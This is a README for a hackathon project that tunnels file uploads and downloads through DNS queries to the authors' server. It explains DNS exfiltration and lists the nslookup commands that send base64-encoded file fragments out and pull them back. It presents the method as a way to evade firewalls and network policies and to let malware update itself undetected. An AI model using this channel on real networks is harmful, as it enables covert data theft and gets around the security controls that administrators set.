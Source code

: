 # DNS Exfiltration (Rowdyhacks VII 3/27/2022)

Hi, if you're reading this, you probably were sent here from a text message after inputting a command. If you were not, I recommend running the following command in CMD:
`nslookup text.YOURPHONENUMBER.dns-exfil.tech`



## Features

- SQL Database
- NodeJs Name Server
- PowerShell client interface
- Twilio for text messages
- ...and of course, our beautiful DNS exfiltration method

Thank you to **Google Cloud, Domain.com & Twilio** for making this possible!

## What is DNS Exfiltration?

DNS Exfiltration in its most simplest terms is a way to exchange any kind of data in a restrictive environment, but what is it that makes it so special? 

To understand the answer to this question, we must first understand what DNS is. DNS stands for Domain Name Server, it is a server that translates "domains" such as "google.com" or "roblox.com" into their respective IP addresses. To learn more about DNS, check out cloudflare's article on it: https://www.cloudflare.com/learning/dns/what-is-dns/

DNS is a **vital** part of the everyday internet, everytime you access the internet you're likely using this protocol in some way. To get an example of how DNS works, open up `cmd` from the windows menu and type `nslookup google.com`. You'll get a pretty straight forward response of a bunch of numbers. This is the normal behavior for DNS.

### The mailman analogy
The best way to describe this program is through an analogy about mailmen:

Mailman A receives a package from a citizen with an address on it, the mailman looks at it and says "This doesn't look familiar" so the mailman asks his buddy, mailman B if they know where the address is. Mailman B doesn't seem to know, so this process repeats a few times until eventually, one of the mailmen says "Hey, I know where that address is and I'm the only one who knows". So the other mailmen give the letter to them, they give it to the person (server) at the address, and they hand the modified letter back to the mailmen with the initial sender as the recipient as per usual. This activity is completely normal, so the other mailmen pay no mind and return it to the initial sender, despite for some reason the data in the mail seems a bit unusual.

So back to the initial question, if DNS's only job is to resolve domain names, how are you able to exchange any kind of data as we claim? 

**The answer**: We disguise encoded data as a normal DNS record response, which can only be properly understood by the client and the server using this program.

## Okay, but why?

DNS exfiltration is a very powerful exploit if used correctly. It tends to be evasive to most firewalls and DNS filters as it creates seemingly normal DNS traffic straight to and from an facilities DNS server, giving admins a false sense of control and security. You may block all other DNS servers, but it doesn't matter if your DNS server has to ask other DNS servers for help as most do. 

This tool could be used to do anything from downloading minecraft when your school network blocks, it to creating malware that procedurally updates itself undetected. This program runs entirely off of systems native to windows, all you need is powershell or cmd and you can transfer files wherever and whenever you want, regardless if a network policies desire you to do otherwise.

## This sounds malicious, why did you make it?

Our goal is not to spread malware or fear monger, if we wished to do that there would be no reason in making this open source. Our goal is to spread awareness about potential exploits that utilize clever and unexpected avenues. Its important we're all cognizant of these risks and do what we can to mitigate them in order to build a safer internet.

This is purely our take on DNS Exfiltration, we've built somewhat of a framework here that essentially turns DNS into a command line interface.

# SERVER "API" DOCUMENTATION

***THERE IS A POWERSHELL SCRIPT TO AUTOMATE THIS UNDER THE CLIENT FOLDER*** 

## A Record:

`nslookup text.PHONENUMBER.dns-exfil.tech`

Sends a text to your phone number with information about how to get to this page.

| Name | Description |
| ----------- | ----------- |
| **PHONENUMBER** | Any US phone number, text service is provided by Twilio |

## CNAME Record:

`nslookup -type=CNAME up.start.FILENAME.dns-exfil.tech`

Begins the file upload process, returns a CNAME record which contains the "APIKEY" for future calls

| Name | Description |
| ----------- | ----------- |
| **FILENAME** | Desired name of the file, must be unique or will return with "EXIST" string |

---
 
`nslookup -type=CNAME up.send.APIKEY.SEQUENCE.ENCODEFRAGMENT.dns-exfil.tech`

Used to send encoded data fragments to the server

| Name | Description |
| ----------- | ----------- |
| **APIKEY** |  Key which you received in the up.start response |
| **SEQUENCE** | Number which determines which fragment is being sent. Prevents things from sending twice.|
| **ENCODEFRAGMENT** | base64 encoded data fragment of your file |

---
 
`nslookup -type=CNAME up.end.APIKEY.dns-exfil.tech`

Tells the server you've sent all the required data.

| Name | Description |
| ----------- | ----------- |
| **APIKEY** |  Key which you received in the up.start response |

---
 
`nslookup -type=CNAME dn.info.NAME.dns-exfil.tech`

Fetches info and stages a file to be downloaded from the SQL database. Returns total number of fragment groups required to be sent to the client.

| Name | Description |
| ----------- | ----------- |
| **NAME** | Name of file you wish to fetch |

---
 
`nslookup -type=CNAME dn.get.NAME.SEQUENCE.dns-exfil.tech`

Fetches a group of fragments which are all returned in separate CNAME records, adjustable in CNAME.js

| Name | Description |
| ----------- | ----------- |
| **NAME** | Name of file you wish to fetch |
| **SEQUENCE** | Fragment group index you are currently fetching |
